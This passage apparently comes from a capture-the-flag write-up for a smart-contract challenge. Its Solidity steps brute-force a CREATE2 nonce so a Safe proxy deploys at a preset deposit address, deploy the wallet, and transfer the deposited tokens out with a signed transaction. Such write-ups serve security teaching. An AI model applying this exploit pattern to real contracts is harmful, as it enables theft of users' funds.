 2. Find Correct Nonce:

```solidity
function findCorrectNonceOffline() internal view returns (uint256) {
    bytes memory initializer = getInitializer();
    bytes memory deploymentData = abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(singletonCopy)));
    bytes32 deploymentHash = keccak256(deploymentData);

    for (uint256 nonce = 0; nonce < type(uint256).max; nonce++) {
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), nonce));
        address predictedAddress = address(
            uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(proxyFactory), salt, deploymentHash))))
        );

        if (predictedAddress == USER_DEPOSIT_ADDRESS) {
            return nonce;
        }
    }

    revert("Correct nonce not found");
}
```

3. Deploy Wallet:

```solidity
function deployWallet(uint256 correctNonce) internal {
    bytes memory initializer = getInitializer();
    bool success = walletDeployer.drop(USER_DEPOSIT_ADDRESS, initializer, correctNonce);
    require(success, "Wallet deployment failed");
}
```

4. Transfer Funds:

```solidity
function transferFunds(bytes memory userSignature) internal {
    Safe userSafe = Safe(payable(USER_DEPOSIT_ADDRESS));
    bytes memory transferData = abi.encodeWithSelector(IERC20.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);

    (bool success,) = address(userSafe).call(
        abi.encodeWithSelector(
            Safe.execTransaction.selector,
            address(token),
            0,
            transferData,
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            userSignature
        )
    );
    require(success, "Safe transaction failed");
}
```
